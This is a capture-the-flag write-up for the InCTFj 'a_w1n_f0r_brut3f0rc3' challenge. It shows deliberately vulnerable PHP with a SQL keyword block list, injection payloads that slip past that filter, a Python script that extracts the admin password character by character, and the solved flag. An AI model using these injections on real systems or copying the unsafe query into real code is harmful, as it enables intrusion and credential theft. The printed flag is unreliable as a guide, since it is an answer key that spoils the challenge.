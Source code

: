 # a_w1n_f0r_brut3f0rc3
You can get the source-code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/InCTFj/a_w1n_f0r_brut3f0rc3).

Source code : 

```PHP
<?php 
//error_reporting(0); 
include "./config.php"; 
include "./flag.php"; 

$black_list = "/admin|guest|limit|by|substr|mid|or|not|ascii|char|union|select|greatest|%00|\"|benchmark|"; 
$black_list .= "=|_|in|<|>|sqlauth|_|\.|\(\)|and|if|database|where|concat|insert|having|sleep/i"; 

if(preg_match($black_list, $_GET['pass'])) exit(":P"); 
$pass=$_GET['pass'];
$query = "select user from sqlauth where user='guest' and pw='$pass'"; 
echo "<h2>query : {$query}</h2>"; 
$result = @mysql_fetch_array(mysql_query($query)); 
$admin_info =  @mysql_fetch_array(mysql_query('select * from sqlauth where user="admin"')); 

if($result['user']) echo "<h2>Welcome {$result[user]}</h2>"; 

if($admin_info['pw']===$_GET['pass'] && $admin_info['user']==$_GET['user'] &&($admin_info['pw'])){
        echo $flag; 
        } 

highlight_file(__FILE__); 
?> 
```
On analysing the code we can understand that we have to pass the arguments as 'pass' parameter

Let's try to break the query

```
url?pass=’ || 1;%00
```
So let's put our query instead of "1" as "(pw like '%')";%00. It looks like :

```
url?pass=' || (pw like '%');%00
```

Now to get the flag we need to dump the admin password for that we are going to use regex. Here is a python script for that.

```python
import requests

#url="http://35.154.254.85/a_w1n_f0r_brut3f0rc3/?pass=' || ((pw) like \'"
url="http://localhost/inctfj/quals/a_w1n_f0r_brut3f0rc3/?pass=' || (pw like \'"
pay="1234567890"
passwd=""
while(1):
    corr=0
    for j in pay:
        query=url+passwd+j+"%\')%23"
        print(query)
        http=requests.get(query)
        if "Welcome admin" in http.text:
            passwd=passwd+j
            print(passwd)
            corr+=1
    if corr==0:
        break
print("Final pw : "+passwd)
```
On dumping the admins password and submitting the pass we get the flag :

```
inctfj{d0_u_kn0w_the_significance_0f_1729_and_6174??}
```
